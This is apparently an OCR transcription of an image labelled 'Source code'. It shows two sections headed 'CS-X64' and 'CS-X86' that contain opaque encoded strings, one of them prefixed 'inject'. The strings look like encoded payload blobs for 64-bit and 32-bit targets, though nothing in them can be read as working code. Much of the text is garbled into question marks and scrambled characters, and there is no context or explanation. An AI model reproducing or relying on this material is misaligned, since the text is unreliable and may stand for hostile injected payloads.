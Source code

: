 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsrat34|2,??a;??6,P;???10,U;???1????4,,?;????18,????r;2??2,C??;26??,??z;30,???@?;???34,t;??38,??H;42,??C;?46,F;?50,E????;54,???8????;58,?z??;6???2,J;??66,J;?70,H;???74,Y;???78,J;????82????,3;??86,l???;9?0,X;9?4,????T;9??8,g;?102,x??;106???,2????;11????0???,s????;114,???D;11??8???,4;?122,s???;126,???c;13?0,z;????1?34,h????;|h??A????raC??0hP????6mlU9?YY,?x????y???Crz????U2C0L???Azvh??I???@xDn????t?C??LMH?Vn??BCrN???LFNBq?E?yU2????8T9????lz????105Jg????Dv??JDZ??eHVn??DY5w0??Jwl???v3z???UYl?09zXn????x0T3???ljg?zLNx????Vm?A2v?gHshz?mD??BVw4???P???f?Bs9IT??c????x???Er????zCL3???h=????qasfca
